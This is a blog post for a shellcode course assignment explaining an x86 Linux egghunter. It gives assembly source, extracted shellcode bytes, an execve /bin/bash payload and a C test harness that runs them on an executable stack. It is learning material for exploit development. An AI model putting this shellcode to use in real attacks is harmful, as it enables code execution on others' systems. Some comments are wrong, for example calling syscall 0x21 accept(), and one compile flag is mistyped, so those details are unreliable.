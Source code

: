 ```yaml
---
title: SLAE32 Assignment 3 -- Egghunter Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)

## Overview
For our fourth assignment in the SLAE32 course we were tasked with creating an egghunter.  
What is an Egg Hunter?   
An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

## Egghunter Assembly Code
```nasm
; Filename: eggHunter.asm
; Author:   boku
global _start
_start:
; Configure Egg in EBX
  mov ebx, 0x50905090
; Clear EAX, ECX, EDX
  xor ecx, ecx         ; Clears the ECX Register. 
  mul ecx              ; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX registers 
; Jump here to move forward a memory page
nextPage:              ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
  or dx, 0xfff         ; 0xfff = 4096. This is the size of Linux Memory pages.
; Jump here to move forward 4 bytes on a memory page
nextAddress:           ; Increments the memory address stored in EDX by 4 Bytes (a memory address in IA-32 bit)
  inc edx              ; in combo with the or dx above, this moves the memory scanner EDX by a page
                       ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the next memory address
 ; 4095*2=8190+1=8191. 
 ;                                      --> (inc edx) 4095+1  -->  (inc edx) 8191+1
 ; or dx when edx is: \x00000000        |   \x00001000 = 4096 |    \x00002000 = 8192
 ;               OR   \x00000FFF        |   \x00000FFF = 4095 |    \x00000FFF = 4095
 ;          RESULTS:  \x00000FFF = 4095--   \x00001FFF = 8191--    \x00002FFF = 12287
; Save the registers before accept() system-call because they will be altered after the call
 pusha                 ; Pushes all 16-bit registers onto the stack
 lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                       ;  Stores the value stored at EDX+4 into the EBX register
 mov al, 0x21          ; System Call for accept() 
 int 0x80              ; Executes accept()
; Check if memory page is accessible
 cmp al, 0xf2          ; The return value of accept() is stored in EAX. Checks if access is denied
; Load the registers that were stored onto the stack

 popa                  ; Pops all 16-bit registers from the stack
; if accept() could not access the memory page, go to the next page
 jz nextPage           ; If page access is denied, check the next memory page 
; if accept() could access the memory page, check if the egg is in the first memory location on the page
 cmp [edx], ebx
; if the egg is not there, then increment our location on the page by 1 byte and check there
 jnz nextAddress
; if the egg is there, check the next for bytes to make sure it is our payload and not the egghunter itself.
 cmp [edx+0x4], ebx
; if the egg isn't there then it is a fluke or is our egghunter. Check the next address.
 jnz nextAddress
; if the egg is there twice, then we found our payload. Jump to the memory location on that page
;  and transfer control to our payload.
 jmp edx
```

## Compiling and Testing the EggHunter
### Compiling the EggHunter Assembly Code
```nasm 
root# nasm -f elf32 eggHunter.asm -o eggHunter.o
root# ld -z execstack eggHunter.o -o eggHunter
```

### Compiling a Payload for the EggHunter to Find
#### SLAE32 Execve-Stack `/bin/bash` Shellcode
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com

global _start

section .text
_start:

; PUSH the first null dword
xor eax, eax
push eax
; PUSH ////bin/bash (12)
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```
#### Compiling the Payload
```console
t# nasm -f elf32 execve-stack.nasm -p execve-stack.o
root# ld -z execstack execve-stack.o -o execve-stack
```

#### Testing the Payload
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./execve-stack 
root# ps -p $$
  PID TTY          TIME CMD
  584 pts/5    00:00:00 bash
```

### Testing the EggHunter in a Host Program
#### Grabbing the Hex for the Execve Shellcode
```console
root# objdump -d execve-stack | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
#### Grabbing the Hex from our EggHunter Shellcode
```console
root# objdump -d eggHunter | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\xbb"
"\x90\x50\x90\x50"  # Our Egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2"
```
#### Host Program in C
```c
// Filename: testEggHunter.c
// Author:   boku
#include <stdio.h>
#include <string.h>
// This is the egg for our eggHunter
// the egg should be 4 bytes and be executable
#define egg "\x90\x50\x90\x50"

// Put two eggs in front of our payload
// This allows our eggHunter to find it in memory
unsigned char payload[] =
egg
egg
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// Replace the hardcoded egg with a variable.
// This allows us to easily change the egg for our eggHunter.
unsigned char egghunter[] =
"\xbb"
egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2";

// This program will run our egghunter.
// Our eggHunter will search memory until it finds 2 eggs.
// Once the payload is found it will pass control to the payload.

int main()
{
    printf("Memory Location of Payload: %p\n", payload);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

#### Compiling the Host Program 
```c
root# gcc testEggHunter.c -o testEggHunter -fno-stack-protector -z execstack
```

#### Testing the EggHunter in the Host Program
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./testEggHunter 
Memory Location of Payload: 0x804a040
Size of Egghunter:          39
root# ps -p $$
  PID TTY          TIME CMD
 3048 pts/5    00:00:00 bash
```
+ Before we run our program we get the Program ID of our bash shell.
  - Our `bash` PID is 14383.
+ After running our eggHunter we check to see that it found our payload, and spawned a new bash shell.
  - Our `bash` PID is now 3048. 
  - We have successfully spawned a new bash shell.
